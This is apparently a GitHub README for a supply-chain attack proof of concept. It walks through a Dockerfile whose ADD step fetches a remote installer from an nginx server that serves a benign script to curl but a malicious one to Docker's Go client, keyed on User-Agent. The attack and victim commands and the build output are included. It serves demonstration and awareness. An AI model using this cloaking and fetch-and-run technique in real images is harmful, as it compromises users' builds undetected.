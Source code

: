 # attackingtheSDLC
Supply chain attack proof of concept using ADD in a Dockerfile and a malicious nginx

# What is this about

We all know that curl-pipe-sudo-bash is a thing. Many think it is a bad thing. But we all use Docker now so this is not a problem any more...  
In preparation for a talk I was thinking about ways to attack supply chains in Kubernetes or Docker environments. That was when I remembered when I learned that ADD in Dockerfiles lets you [copy files from remote URLs](https://docs.docker.com/engine/reference/builder/#add) (thanks to [Matthias](https://twitter.com/uchi_mata) and [Chris](https://www.twitter.com/brompwnie) for their [Blackhat-EU19 talk](https://www.blackhat.com/eu-19/briefings/schedule/#reverse-engineering-and-exploiting-builds-in-the-cloud-17287) ).

So I tried to combine the evading techniques for curl-pipe-sudo-bash scenarios with Dockerfile ADD and remote URIs.

# Walkthrough

## Attackers part

The attacker provides a very useful application as a Docker container as open source. They also control a webserver that serves an installer. Depending on the request the webserver will serve a legitimate or a malicious installer.

Get sources from Github
```
git clone git@github.com:infenet/attackingtheSDLC.git
cd attackingtheSDLC/
```

Build the dockerfile of our malicous nginx and let it run
```
cd malicious-nginx/
docker build -t attackingthesdlc-nginx .
docker run -p 1337:80 -d attackingthesdlc-nginx
```

## Victims part

The victim wants to use a docker container by a third party. That is why they want to validate the Dockerfile and what is happening inside of it.

Get sources from Github (you should have done that already)
```
git clone git@github.com:infenet/attackingtheSDLC.git
cd attackingtheSDLC/
```

Take a look at the Dockerfile
```
cd evil-dockerfile/
cat Dockerfile
```

The content is straightforward. The docker build will use the official debian buster image and adds a wrapper file that later is going to start the process in the container.
After that the maintainer (the attacker) decided to download an installer from a remote location and confuses the victim with "security reasons".

The victim, knowing that copying installer from remote URLs is bad, decides to take a look at the installer.
```
curl http://localhost:1337/script/installer.sh
```

The output is very simple( do not copy this)
```
#!/bin/sh

echo "Installing everything needed by our application"
sleep 2
echo "Done"
```

Reassured our victim builds the container.
```
docker build -t awesome-container-from-attackingthesdlc:1 .
```

The output will look like this
```
Sending build context to Docker daemon  3.072kB
Step 1/5 : FROM debian:buster-slim
 ---> 837fd7c8d960
Step 2/5 : COPY my_wrapper-script.sh /my_wrapper_script.sh
 ---> 1eadaf5c3365
Step 3/5 : ADD http://localhost:1337/script/installer.sh /tmp/installer.sh
Downloading [==================================================>]     412B/412B
 ---> 82e3b8007746
Step 4/5 : RUN chmod +x /tmp/installer.sh; /bin/sh /tmp/installer.sh
 ---> Running in 742a8abdbb0b
Definitely not running exploit code here
Adding files to your container
Changing wrapper script. Sorry :(
Done
Removing intermediate container 742a8abdbb0b
 ---> 43af7108c6ac
Step 5/5 : CMD /my_wrapper-script.sh
 ---> Running in c4d425313d37
Removing intermediate container c4d425313d37
 ---> a377b993eca5
Successfully built a377b993eca5
Successfully tagged awesome-container-from-attackingthesdlc:1
```

As you can see the malicious scriptechos debug output to visualize where the attack happend.  
The resulting image now differs from the expectation of the victim. The attacker added additional files to the image and changed the wrapper. They would be able to add a backdoor too.

# Explanation of the attack

The malicious nginx config has a map that checks if the User-Agent is set to something like "Go-http-client". I assume that most people checking the content of the installer would use curl, wget or a browser to verify that the installer itself is not malicious. Docker build uses a go library to get the installer from the remote url. The malicious nginx than just serves a different installer.sh file.

# quick commands
# attacker
docker build -t attackingthesdlc-nginx .
docker run -p 1337:80 -d attackingthesdlc-nginx

# victim
docker build -t awesome-container-from-attackingthesdlc:1 .
docker system prune -a